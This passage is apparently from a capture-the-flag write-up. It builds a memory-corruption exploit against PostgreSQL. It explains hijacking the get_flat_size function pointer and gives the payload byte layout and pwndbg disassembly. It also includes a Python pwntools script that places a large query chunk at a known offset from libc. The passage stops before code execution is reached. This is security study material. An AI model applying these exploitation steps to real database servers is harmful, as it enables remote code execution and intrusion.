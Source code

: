 ```c
{
	return eohptr->eoh_methods->get_flat_size(eohptr);
}
```

Considering the code above - we are able to fully control `ptr` variable in `DatumGetEOHP` function, so effectively we have a control over `get_flat_size` function pointer that is called just after `DatumGetEOHP`, leading to arbitrary function call.

In order to call `EOH_get_flat_size` we have to construct our payload in the following way:

- the first byte of our payload needs to be set to `0x01` - this is to satisfy `VARATT_IS_EXTERNAL_EXPANDED` macro in `heap_tuple_untoast_attr` function
- the second byte has to be `0x02` to pass `VARATT_IS_EXTERNAL_EXPANDED` check and call `DatumGetEOHP`
- the next six bytes should represent the address that will be copied to the `ptr` variable. The trick is that we cannot use null bytes in our payload, so we have to rely on the fact that upper two bytes of pointer will be zeroed (which may not always be the case)

Quick look on `EOH_get_flat_size` assembly:
```
pwndbg> disassemble EOH_get_flat_size
Dump of assembler code for function EOH_get_flat_size:
   0x0000556a61659620 <+0>:	mov    rax,QWORD PTR [rdi+0x8]
   0x0000556a61659624 <+4>:	jmp    QWORD PTR [rax]
```

The `rdi` is the part that we control. To achieve code execution, we need to ensure that the address at `rdi+8`, after dereferencing, points to a valid function address. Unfortunately we don't have information about the heap address, so we cannot craft anything on heap. Fortunately, we are able to create and send a huge query string. `postgres` will use `malloc` to allocate memory for our string, so if it would be big enough `malloc` will use `mmap` for creating a memory chunk, and it will be located at known offset from `libc` (we know its address!). We can verify that using the following python code:

```python
import psycopg2
from pwn import *

conn = None

def local():
    global conn
    conn = psycopg2.connect(host="localhost",user="ctf",password="123qwe!@#QWE",dbname="postgres")

def bigchunk():
    conn.commit(); cur = conn.cursor()
    cur.execute(b"SELECT '\\x" + b'aaaaaaaa' * 0x800000 + b"'::bytea, bpchar_sum('1', '           AABBCCDD')")
```

I'm using `ipython` to run commands (it is convenient to work with) - executed commands:

```py
%run solve.py
local()
# now attached gdb to process inside container
bigchunk()
```
